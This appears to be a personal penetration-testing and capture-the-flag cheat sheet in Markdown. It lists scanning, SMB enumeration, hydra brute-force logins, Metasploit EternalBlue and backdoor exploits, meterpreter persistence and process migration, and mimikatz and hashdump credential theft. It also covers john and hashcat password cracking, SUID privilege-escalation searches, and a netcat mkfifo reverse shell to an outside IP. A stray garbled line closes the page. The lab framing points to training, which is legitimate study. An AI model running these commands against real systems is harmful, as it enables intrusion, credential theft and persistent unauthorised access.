 
# scanning

https://github.com/RustScan/RustScan/releases

```
sudo dpkg -i rustscan_2.0.1_amd64.deb
```

```
sudo rustscan  --ulimit 5000 -a [ip] -- -A -sS --top-ports 1024 --script=vuln,vulners -oX attackerkb.xml --reason --stats-every 5s 
```


----------

# dirbuster

```
gobuster dir -e -u [ip] -w /usr/share/wordlists/dirb/common.txt
```

-w

```
-w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt \
```

to check which extension to upload

```
/usr/share/seclists/Fuzzing/extensions-most-common.fuzz.txt
```


# SMB

```
smbclient //<IP>/anonymous
```

```
smbget -R smb://MACHINE_IP/anonymous
```

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP
```

# http
``sudo hydra <username> <wordlist> MACHINE_IP http-post-form "<path>:<login_credentials>:<invalid_response>"`

```
`hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V`
```


nfs

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount MACHINE_IP
```


ssh

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt <IP> ssh
```

```
ssh -i id_rsa <user>@<IP>
```

----------

web

1. check source code
2. check robots.txt
3. check directories

linux commands pr

# msf


---------

run post/windows/gather/credentials/credential_collector


hashdump


sysinfo


load mimikatz


load kiwi
creds_all


Example 6-12. Migrating to the notepad.exe process 
meterpreter > run post/windows/manage/migrate


run persistence -A


exploit(windows/smb/ms08_067_netapi)


exploit suggester


use auxiliary/scanner/smb/smb_ms17_010


auxiliary(scanner/smb/smb_enumshares)


auxiliary(scanner/smb/smb_version)


auxiliary(auxiliary/scanner/portscan/tcp)



-------------------

```
https://gist.github.com/kriss-u/8e1b44b1f4e393cf0d8a69117227dbd2
```
---------

```
ms17-010
```

```
exploit/windows/smb/ms17_010_eternalblue
```

```
set payload windows/x64/shell/reverse_tcp
```

--------
```
exploit/linux/webmin_backdoor
```

post

```
post/multi/manage/shell_to_meterpreter
```

migrate

```
spoolsv.exe
```

```
migrate -N PROCESS_NAME
```


exfiltration

``` 
load kiwi
creds_all
```

```
hashdump
```

search

```
search -f *.jpg
```



-----------


shell stablize
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

ctrl z

```bash
stty raw -echo
```

```bash
fg
```

-------

```
su -
```

changes to root user without sudo

-----
crypto and steg

https://gchq.github.io/
https://www.dcode.fr/cipher-identifier

```bash
steghide extract -sf stegosteg.jpg
```

```bash
strings file
```

```bash
binwalk meme.jpg
binwalk -e meme.jpg
```



hashes

```bash
wget https://gitlab.com/kalilinux/packages/hash-identifier/-/raw/kali/master/hash-id.py
python3 hash-id.py
john --format=[format] --wordlist=[path of wordlist] [path to file]
```

john the ripper

```bash
sudo gzip -d /usr/share/wordslists/rockyou.txt.tar.gz
```

```bash
tar -xvf /usr/share/wordlists/rockyou.txt.gz
```

```bash
/usr/share/john/ssh2john.py id_rsa crack
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt crack
```

zip
```bash
zip2john secure.zip > secure.txt
john secure.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

rar
```bash
rar2john secure.rar > secure2.txt
john secure2.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

spectorgram
https://academo.org/demos/spectrum-analyzer/

-------------

```bash
 hashcat --help | grep "MD5"
```

```bash
hashcat -m 1400 -a 0 -o sha_cracked.txt sha2–256.txt /usr/share/wordlists/rockyou.txt
```

- **hashcat**: This is the command used to run Hashcat, a popular password cracking tool.
    
- **-m 1400**: This option specifies the hash mode. In this case, '-m 1400' indicates that Hashcat should use mode 1400, which is designed for cracking SHA-256 hashes.
    
- **-a 0**: This option specifies the attack mode. '-a 0' represents a straight dictionary attack, where Hashcat will go through each word in the wordlist and hash it using SHA-256, then compare the result with the target hash.
    
- **-o sha_cracked.txt**: This option specifies the output file where Hashcat will store the cracked passwords. In this case, the cracked passwords will be saved to a file named 'sha_cracked.txt.'
    
- **sha2–256.txt**: This is the file that contains the target SHA-256 hashes you want to crack. You need to replace this with the actual file containing the hashes you're trying to crack.
    
- **/usr/share/wordlists/rockyou.txt**: This is the wordlist file that Hashcat will use for the dictionary attack. It's a common practice to use well-known wordlists like 'rockyou.txt' in password cracking attempts because they contain a large number of commonly used passwords.

------
reverse shell

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.169.233 1234 >/tmp/f
```



# privsc

linux priv sc

```
find / -user root -perm -4000 -exec ls -ldb {} \;
```

```
find / -perm /4000 2>&1 | grep -v “Permission denied”
```

```
find / -perm -u=s -type f 2>/dev/null
```

```
sudo su
```

# find
sudo find / -type f -name "flag.txt"

z4x\B*BJ:\(r?"6a~Adm]"?cQj^uUJ


